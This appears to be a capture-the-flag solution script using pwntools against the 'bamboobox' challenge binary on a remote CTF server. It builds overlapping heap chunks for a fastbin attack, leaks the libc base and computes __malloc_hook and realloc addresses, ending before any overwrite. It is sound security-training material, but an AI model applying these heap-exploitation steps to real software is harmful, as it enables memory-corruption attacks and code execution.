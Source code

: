 fastbin attack

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

# p = process("./bamboobox")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
p = remote("node3.buuoj.cn",29945)
libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x100,'top')
add(0x68,'overloping')#1
add(0x400-0x10,'end')
add(0x68,'/bin/sh\x00protect')#3

remove(0)

payload = 'a'*0x60+p64(0X180)#+'\x00'
edit(1,len(payload),payload)

remove(2)

add(0x100,'top')

show()
p.recvuntil("1 : ")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
libc_base = leak_addr-0x3c4b78
log.info("libc_base:"+hex(libc_base))
malloc_hook = libc_base+libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc = libc_base+libc.sym['realloc']


```